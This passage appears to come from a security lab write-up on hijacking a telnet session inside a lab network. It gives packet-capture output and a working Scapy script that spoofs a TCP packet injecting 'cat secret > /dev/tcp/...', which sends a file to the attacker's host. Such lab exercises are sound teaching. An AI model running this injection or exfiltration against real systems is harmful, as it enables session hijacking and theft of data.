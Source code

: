 In this task, we need to demonstrate how we can hijack a `telnet` session between two computers. Our goal is to get the `telnet` server to run a malicious command from us. For the simplicity of the task, we assume that the attacker and the victim are on the same LAN.

First, let's use `tshark` to capture packets between user 1 (`user1-10.9.0.6`) and the victim. In another terminal window, enter into the user 1's shell and `telnet` the victim's IP address. After logging in, issue the `netstat` command:

```console
seed@5eec56c1372f:~$ netstat -nta
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.11:38561        0.0.0.0:*               LISTEN     
tcp        0      0 10.9.0.5:23             10.9.0.6:48662          ESTABLISHED
```

At the same time, we can see `tshark` printing out multiple lines of packet information:

```console
...
  116 235.910256731     10.9.0.6 → 10.9.0.5     TELNET 67 Telnet Data ...
  117 235.910386009     10.9.0.5 → 10.9.0.6     TELNET 67 Telnet Data ...
  118 235.910402316     10.9.0.6 → 10.9.0.5     TCP 66 48662 → 23 [ACK] Seq=1340333909 Ack=3134172352 Win=64128 Len=0 TSval=1776749336 TSecr=3880557648
  119 236.150400115     10.9.0.6 → 10.9.0.5     TELNET 67 Telnet Data ...
  120 236.150552808     10.9.0.5 → 10.9.0.6     TELNET 67 Telnet Data ...
  121 236.150570702     10.9.0.6 → 10.9.0.5     TCP 66 48662 → 23 [ACK] Seq=1340333910 Ack=3134172353 Win=64128 Len=0 TSval=1776749576 TSecr=3880557888
  122 236.415307544     10.9.0.6 → 10.9.0.5     TELNET 67 Telnet Data ...
  123 236.415428473     10.9.0.5 → 10.9.0.6     TELNET 67 Telnet Data ...
  124 236.415442987     10.9.0.6 → 10.9.0.5     TCP 66 48662 → 23 [ACK] Seq=1340333911 Ack=3134172354 Win=64128 Len=0 TSval=1776749841 TSecr=3880558153
  125 236.608509387     10.9.0.6 → 10.9.0.5     TELNET 67 Telnet Data ...
  126 236.608633947     10.9.0.5 → 10.9.0.6     TELNET 67 Telnet Data ...
  127 236.608646896     10.9.0.6 → 10.9.0.5     TCP 66 48662 → 23 [ACK] Seq=1340333912 Ack=3134172355 Win=64128 Len=0 TSval=1776750034 TSecr=3880558346
  128 236.695322363     10.9.0.6 → 10.9.0.5     TELNET 67 Telnet Data ...
  129 236.695454590     10.9.0.5 → 10.9.0.6     TELNET 67 Telnet Data ...
  130 236.695483888     10.9.0.6 → 10.9.0.5     TCP 66 48662 → 23 [ACK] Seq=1340333913 Ack=3134172356 Win=64128 Len=0 TSval=1776750121 TSecr=3880558433
  131 236.889633744     10.9.0.6 → 10.9.0.5     TELNET 68 Telnet Data ...
  132 236.891735810     10.9.0.5 → 10.9.0.6     TELNET 468 Telnet Data ...
  133 236.891764815     10.9.0.6 → 10.9.0.5     TCP 66 48662 → 23 [ACK] Seq=1340333915 Ack=3134172758 Win=64128 Len=0 TSval=1776750318 TSecr=3880558630
```

Don't forget to use `ifconfig` or `ip addr` to find the network interface associated with the IP address `10.9.0.1` and use Wireshark to find the next sequence and acknowledgement numbers.

```python
#!/usr/bin/env python3

# hijack.py
from scapy.all import *

ip   = IP(src="10.9.0.6", dst="10.9.0.5")
tcp  = TCP(sport=48662, dport=23, flags="A", seq=1340333916, ack=3134172759)
data = "\r cat secret > /dev/tcp/10.9.0.1/9090 \r"
pkt  = ip/tcp/data
ls(pkt)
send(pkt, iface="br-16dcc04ec32d", verbose=0)
```


[^1]: Direction of flows is important if someone wants to configure asymmetric rules; that is, not all protocols require symmetric bandwidth.
[^2]: [https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/](https://www.cloudflare.com/learning/ddos/syn-flood-ddos-attack/).
[^3]: This SYN backlog queue is also called "request socket queue." There is another backlog queue, maintained by the Linux kernel, called the accept queue. Once an ACK packet is received and validated, a new client connection is ready. This connection is moved into the accept queue, waiting for the application to call `accept()` and receive it. The `net.core.somaxconn` toggle specifies a network-system-wide maximum for the backlog of any socket; that is, it is not system global, but global to a Linux network namespace. Running in containers that have their own network namespaces, the value of `net.core.somaxconn` is set to the built-in kernel default. (More specifically, according to [the official documentation of Docker](https://docs.docker.com/engine/security/), all containers on a given Docker host are sitting on bridge interfaces, each of which gets its own network stack, meaning that a container does not get privileged access to the sockets or interfaces of another container.) When a larger backlog value is provided, the kernel silently caps it at the value of `net.core.somaxconn`. On our SEED VM, this value is `4096`. This [post](https://blog.cloudflare.com/syn-packet-handling-in-the-wild/) from Cloudflare and this [post](https://theojulienne.io/2020/07/03/scaling-linux-services-before-accepting-connections.html) from Theo Julienne provide very good explanations.
[^4]: [https://cr.yp.to/syncookies.html](https://cr.yp.to/syncookies.html).